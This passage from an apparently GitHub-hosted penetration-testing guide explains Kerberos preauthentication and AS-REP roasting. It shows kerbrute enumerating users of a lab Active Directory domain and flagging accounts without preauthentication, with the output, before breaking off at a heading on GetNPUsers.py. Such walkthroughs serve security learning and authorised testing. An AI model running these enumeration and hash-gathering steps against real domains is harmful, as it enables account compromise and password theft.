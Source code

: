When preauthentication is **enabled**:
- A user sends an Authentication Server Request (`AS-REQ`) message to the DC
- The timestamp on that message is encrypted with the hash of the user’s password
- If the DC can decrypt that timestamp using the user’s password hash on record, it sends back an Authentication Server Response (`AS-REP`) message that contains a session key and a Ticket Granting Ticket (`TGT`) issued by the Key Distribution Center (`KDC`), which is used for future access requests by the user

If preauthentication is **disabled**:
- A user can request authentication data for any user and the DC would return an `AS-REP` message
- The session key part of the `AS-REP` message is encrypted using the user’s password hash, which can be used to brute-force the user’s password offline

## 1.2. Use kerbrute to find users with preauthentication disabled

[Kerbrute](https://github.com/TarlogicSecurity/kerbrute) is a script from TarlogicSecurity which uses impacket library to perform kerberos bruteforcing

Install kerbrute

```console
root@kali:~# pip3 install kerbrute
Collecting kerbrute
  Downloading kerbrute-0.0.2-py3-none-any.whl (17 kB)
Requirement already satisfied: impacket in /usr/lib/python3/dist-packages (from kerbrute) (0.10.0)
Requirement already satisfied: dsinternals in /usr/lib/python3/dist-packages (from impacket->kerbrute) (1.2.4)
Installing collected packages: kerbrute
Successfully installed kerbrute-0.0.2
```

```console
root@kali:~# kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -domain lab.vx -dc-ip 192.168.17.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Valid user => cindy
[*] Valid user => dave
[*] Valid user => john
[*] Valid user => luke [NOT PREAUTH]
[*] Valid user => mike [NOT PREAUTH]
[*] Valid user => paul
[*] Valid user => ruth
[*] Valid user => steve
[*] Valid user => svr
[*] No passwords were discovered :'(
```

## 1.3. Use GetNPUsers.py to get password hashes

> [!Tip]
> 
> All Impacket scripts can be called in Kali with `impacket-<script name>`, there's no need to do `python3 /usr/share/doc/python3-impacket/examples/<script name>.py`
